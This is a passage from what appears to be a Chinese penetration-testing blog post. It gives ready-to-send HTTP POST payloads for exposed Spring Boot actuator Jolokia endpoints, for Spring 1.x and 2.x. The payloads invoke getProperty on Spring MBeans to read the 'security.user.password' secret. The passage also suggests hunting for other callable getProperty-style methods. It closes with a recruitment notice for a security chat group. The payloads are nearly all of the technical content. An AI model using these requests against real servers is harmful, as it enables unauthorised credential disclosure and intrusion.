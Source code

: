   
spring 2.x  
  
POST /actuator/jolokia  
  
Content-Type: application/json  
  
  
{"mbean": "org.springframework.boot:name=SpringApplication,type=Admin","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}  
```
·调用 org.springframework.cloud.context.environment Mbean
实际上是调用 org.springframework.cloud.context.environment.EnvironmentManager 类实例的 getProperty 方法
```  
  
spring 1.x  
  
POST /jolokia  
  
Content-Type: application/json  
  
  
{"mbean": "org.springframework.cloud.context.environment:name=environmentManager,type=EnvironmentManager","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}  
  
  
spring 2.x  
  
POST /actuator/jolokia  
  
Content-Type: application/json  
  
  
{"mbean": "org.springframework.cloud.context.environment:name=environmentManager,type=EnvironmentManager","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}  
```
·调用其他 Mbean
目标具体情况和存在的 Mbean 可能不一样，可以搜索 getProperty 等关键词，寻找可以调用的方法。
```  
  
**未完，请期待后续....**  
  
PY交易  
  
为了方便师傅们交流学习，我特意创建了一个群聊。内部会分享一些脱敏的漏洞报告,渗透测试实战案例，更有若干大牛巨佬分享经验。后续还会提供一些福利包括送书，小礼物等等，欢迎各位师傅进群交流  
  
  
由于  
“威零安全交流群”  
群聊人数已满200人，扫码进不了的师傅可以添加机器人secbot回复  
“威零科技”即可加入群聊  
  
![](https://mmbiz.qpic.cn/mmbiz_png/DlIbJNHXhc0n1RgOINS9LrDGFZiavm2ZTAMicYjRuJLvnrxlK7BcFiczfBBVeox0KT0wv7XNhArmBhvonN9kiaibHZg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/DlIbJNHXhc0n1RgOINS9LrDGFZiavm2ZTwKljwdKqZX1bzODZe2UAvAoAA5zgWBV9PwFGa7totR8SlnLHk0Hopw/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
  
